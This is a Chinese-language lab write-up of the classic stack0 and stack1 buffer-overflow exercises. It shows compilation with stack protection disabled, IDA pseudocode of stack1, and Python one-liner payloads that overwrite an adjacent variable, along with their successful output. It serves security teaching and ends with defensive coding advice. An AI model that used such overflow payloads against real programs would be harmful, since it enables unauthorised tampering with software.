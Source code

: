# <center>栈溢出实验1</center>

## 实验概述

### 【目的】
1. 通过-fno-stack-protector和-m32参数从gcc编译stack0.c文件。
2. 运行编译后的程序，通过缓冲区溢出修改与字符串数组相邻的变量，得到输出"you have changed the 'modified' variable"
3. 运行stack1程序，通过栈溢出得到输出"you have correctly got the variable to the right value"
### 【环境】
Linux
### 【工具】
gcc，python，管道，IDA pro，binwalk
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### stack0
打开shell，使用-fno-stack-protector参数编译stack0。
```sh
$ gcc stack0.c -o stack0 -fno-stack-protector -m32
stack0.c: In function ‘main’:
stack0.c:11:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(buffer);
   ^
/tmp/ccccxHmM.o: In function `main':
stack0.c:(.text+0x23): warning: the `gets' function is dangerous and should not be used.
```
观察源代码，发现buffer数组与modified变量相邻，要使modified变量不等于0，才能得到输出"you have changed the 'modified' variable"
因为有gets()函数，我们可以向栈上不加限制的写入任意长度的数据，当输入数据大于64时，便发生了溢出，输入数据只要够大，就一定能覆盖到modifiel变量。

这里我们使用python简化输入，免去手打一大堆字符的麻烦。
```sh
$ python -c "print 'A'*65" | ./stack0
you have changed the 'modified' variable
Segmentation fault (core dumped)
```

#### stack1
用binwalk分析程序结构。
```
$ binwalk stack1

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
发现是32位程序，直接拖进idaq.exe，定位到main函数，按F5生成伪代码。

```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+0h] [bp-4Ch]@3
  int v5; // [sp+40h] [bp-Ch]@3
  int *v6; // [sp+48h] [bp-4h]@1

  v6 = &argc;
  if ( argc == 1 )
    errx(1, "please specify an argument\n");
  v5 = 0;
  strcpy(&dest, argv[1]);
  if ( v5 == 'abcd' )
    puts("you have correctly got the variable to the right value");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
可以看到这里把作为参数的字符串复制到了变量dest上：`strcpy(&dest, argv[1]);`
那么我们在运行程序时给出超过dest字符数组长度的参数即可发生溢出，这里我们需要覆盖v5等于`"abcd"`。
经过计算，有：
```
$ python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
you have correctly got the variable to the right value

```
这里的 xargs 表示输入数据作为参数。


### 【总结】

本次实验主要体验Linux环境下栈溢出的发生场景，并尝试通过栈溢出覆盖（修改）相邻的变量，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：
- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

